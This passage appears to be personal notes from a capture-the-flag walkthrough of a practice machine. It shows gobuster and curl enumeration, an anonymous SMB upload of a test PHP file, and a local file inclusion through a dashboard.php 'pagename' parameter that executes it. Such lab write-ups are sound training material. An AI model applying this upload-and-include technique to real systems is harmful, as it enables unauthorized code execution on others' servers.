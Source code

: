 ### look for other php files

uploads.friendzone.red/upload.php
![[Pasted image 20230225231506.png]]
```
curl https://uploads.friendzone.red/upload.php -k  
WHAT ARE YOU TRYING TO DO HOOOOOOMAN ! 
```

admin.friendzoneportal.red/login.php

![[Pasted image 20230225231606.png]]

curl https://admin.friendzone.red/login.php -k
Redirecting                                                                                                                                                  

### gobuster again
```
gobuster dir -u https://uploads.friendzone.red/ --wordlist /usr/share/wordlists/dirbuster/directory-list-1.0.txt -k -t 150

```


## Uploading files

![[Pasted image 20230226002303.png]]
Files share is under /etc/Files, so probably /etc/Development/files if we upload something

```test.php                                             
<?php echo 'test'; ?>
```
Upload this file

```
smbclient -N //friendzone.htb/Development   
Try "help" to get a list of possible commands.
smb: \> put test.php
putting file test.php as \test.php (0.0 kb/s) (average 0.0 kb/s)
smb: \> ls
  .                                   D        0  Sat Feb 25 09:39:48 2023
  ..                                  D        0  Tue Sep 13 10:56:24 2022
  test.php                            A       22  Sat Feb 25 09:39:49 2023

                3545824 blocks of size 1024. 1537504 blocks available
```


Revisit the page
```
https://administrator1.friendzone.red/dashboard.php?image_id=1.jpg&pagename=/etc/Development/test
```

![[Pasted image 20230226002445.png]]
